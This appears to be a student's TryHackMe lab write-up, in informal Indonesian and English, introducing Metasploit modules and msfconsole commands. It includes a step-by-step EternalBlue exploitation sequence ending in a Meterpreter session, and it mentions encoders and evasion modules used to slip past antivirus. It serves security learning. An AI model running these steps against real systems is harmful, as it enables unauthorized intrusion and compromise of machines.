

# TryHackMe - Metasploit Introduction

---

- **Room Link:** [Metasploit: Introduction](https://tryhackme.com/r/room/metasploitintro)
- **Category:** Exploitation Basics
- **Difficulty:** Easy

---

## Task 1: Introduction to Metasploit

Metasploit Framework (MSF) itu framework open-source exploitation yang paling banyak dipake di dunia.

**Fungsi Utama:**

- **Exploitation:** Nyediain database exploit publik yang siap pake.
- **Post-Exploitation:** Bantuin fase setelah berhasil masuk (misal: dumping credentials, pivot, dll).
- **Auxiliary:** Scanning, fuzzing, dan sniffing.

**Versi:**

- **Metasploit Pro:** Versi berbayar pake GUI dan fitur automasi.
- **Metasploit Framework:** Versi komunitas (command-line) yang biasa ada di Kali Linux.

---

## Task 2: Main Components of Metasploit

Metasploit terdiri dari beberapa modul utama. Kita berinteraksi pake **`msfconsole`**.

**Istilah Penting:**

1.  **Exploit:** Kode yang manfaatin celah keamanan (vulnerability) di target.
2.  **Vulnerability:** Kelemahan di sistem yang bisa dieksploitasi.
3.  **Payload:** Kode yang dijalanin di sistem target _setelah_ exploit berhasil (misal: buka reverse shell).

**The type of Module:**

- **Auxiliary:** Tools pendukung kayak scanner, crawler, fuzzer (contoh: `modbus`, `mssql`, `scanner`).
- **Encoders:** Ngubah kode payload biar gak kedeteksi antivirus (obfuscation).
- **Evasion:** Modul khusus buat ngehindarin deteksi keamanan.
- **Exploits:** Database exploit yang dikategoriin berdasarkan target (Windows, Linux, Android, dll).
- **NOPs (No Operation):** Instruksi CPU "do nothing", biasanya dipake buat jaga stabilitas payload buffer overflow.
- **Payloads:**
  - **Singles (Inline):** Payload mandiri (contoh: `shell_reverse_tcp`).
  - **Stagers:** Payload kecil buat bikin koneksi awal, terus download payload sisanya (stages).
  - **Stages:** Payload lanjutan yang didownload sama stager (contoh: `meterpreter`).
- **Post:** Modul post-exploitation (setelah berhasil hack), misal buat nyuri hash password atau enumerasi jaringan internal.

**What is the answer in this question below ?**

- Name of code taking advantage of a flaw? -> **?**
- Name of code that runs on target? -> **?**
- Self-contained payloads? -> **?**
- Is "windows/x64/pingback_reverse_tcp" singles or staged? -> **?**

---

## Task 3: Msfconsole

Task ini ngebahas command dasar di dalam console Metasploit.

**1. Navigation & Basic Command msf:**

- `help`: Nampilin menu bantuan.
- `use [module]`: Milih module buat dipake (misal: `use exploit/windows/smb/ms17_010_eternalblue`).
- `back`: Balik ke menu awal (keluar dari konteks module).
- `info`: Nampilin informasi detail tentang module yang lagi dipilih.
- `search [keyword]`: Nyari module berdasarkan kata kunci.
  - Tips: Bisa cari spesifik, misal `search type:auxiliary telnet`.

<p align="center">



</p>

> **Note:** Perhatiin kolom **Rank**. Exploit pake rank _Excellent_ paling stabil, sedangkan _Low_ berisiko crash di target.

**2. Configure Module:**
Setelah milih module pake `use`, kita perlu ngaturnya:

- `show options`: Nampilin parameter yang perlu diisi.
- `set [OPTION] [VALUE]`: Ngisi nilai parameter.
  - Contoh: `set RHOSTS 10.10.10.10` (Target IP).
  - Contoh: `set LHOST 10.8.1.1` (Attacker IP / VPN IP).
- `setg [OPTION] [VALUE]`: Ngisi parameter secara **Global** (biar gak perlu isi ulang kalau ganti module).
- `unset [OPTION]`: Hapus nilai parameter.

**3. Execution:**

- `run` atau `exploit`: Jalanin module.
- `exploit -z`: Jalanin exploit dan langsung taruh session di background (biar terminal gak nge-hang).
- `check`: Ngecek apakah target vulnerable (tanpa jalanin exploit, cuma scanning).

---

## Task 4: Working with modules

Task ini latihan pake module exploit.

**Skenario:** Kita bakal eksploitasi layanan yang jalan di target.

**Langkah-langkah:**

1.  **Pilih Module:**
    Misal kita udah tau target rentan terhadap exploit tertentu (contoh: `eternalblue`).

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```

2.  **Cek Option:**
    Liat apa aja yang perlu diisi.

    ```bash
    show options
    ```

    - _Perhatiin kolom "Required". Kalau "yes", wajib diisi._

3.  **Set Parameter:**
    - **RHOSTS** (Remote Hosts): IP target.
      ```bash
      set RHOSTS 10.10.x.x
      ```
    - **LHOST** (Local Host): IP kita (attacker). Biasanya `tun0` (VPN TryHackMe).
      ```bash
      set LHOST tun0
      ```

4.  **Execution Command to run exploit:**
    Jalanin exploit.

    ```bash
    exploit
    ```

    - Kalau berhasil, kita bakal dapet **Meterpreter Session**.

5.  **Interaction msf:**
    Kalau session masuk background, pake command `sessions` buat liat list, dan `sessions -i [ID]` buat masuk ke session itu.

**Important Command in msfconsole:**

- `back`: Keluar dari module saat ini.
- `info`: Liat deskripsi detail module (author, referensi, opsi).

---

## Task 5: Summary

Room ini pengantar dasar. Poin kunci yang udah dipelajari:

1.  **Metasploit** itu framework eksploitasi yang powerful dan modular banget.
2.  **Msfconsole** itu interface utama kita.
3.  **Modules** terbagi jadi Exploits, Payloads, Auxiliary, dll.
4.  Workflow standar: `use` -> `set` -> `exploit`.
